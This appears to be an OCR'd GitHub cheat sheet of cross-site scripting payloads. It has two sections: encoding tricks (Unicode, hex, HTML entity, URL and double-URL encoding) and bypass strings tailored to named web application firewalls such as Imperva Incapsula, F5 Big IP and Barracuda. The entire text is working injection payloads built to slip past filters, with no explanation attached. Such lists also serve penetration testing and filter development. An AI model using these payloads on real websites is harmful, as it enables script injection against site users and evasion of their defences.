 #### Encoding

```none
--------------------------------------------------------------------
Unicode:
<script>\u0061lert(1)</script>
<script>\u{61}lert(1)</script>
<script>\u{0000000061}lert(1)</script>
--------------------------------------------------------------------
Hex:
<script>eval('\x61lert(1)')</script>
--------------------------------------------------------------------
HTML:
<svg><script>&#97;lert(1)</script></svg>
<svg><script>&#x61;lert(1)</script></svg>
<svg><script>alert&NewLine;(1)</script></svg>
<svg><script>x="&quot;,alert(1)//";</script></svg>
\’-alert(1)//
--------------------------------------------------------------------
URL:
<a href="javascript:x='%27-alert(1)-%27';">XSS</a>
--------------------------------------------------------------------
Double URL Encode:
%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
%2522%253E%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
--------------------------------------------------------------------
Unicode + HTML:
<svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>
--------------------------------------------------------------------
HTML + URL:
<iframe src="javascript:'&#x25;&#x33;&#x43;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x25;&#x33;&#x43;&#x25;&#x32;&#x46;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;'"></iframe>
--------------------------------------------------------------------
```

#### WAF Bypass

```none
--------------------------------------------------------------------
Imperva Incapsula:
%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
<img/src="x"/onerror="[JS-F**K Payload]">
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\ert\`1\``'>
--------------------------------------------------------------------WebKnight:
<details ontoggle=alert(1)>
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
--------------------------------------------------------------------
F5 Big IP:
<body style="height:1000px" onwheel="[DATA]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
<body style="height:1000px" onwheel="[JS-F**k Payload]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
--------------------------------------------------------------------Barracuda WAF:
<body style="height:1000px" onwheel="alert(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
--------------------------------------------------------------------
PHP-IDS:
<svg+onload=+"[DATA]"
```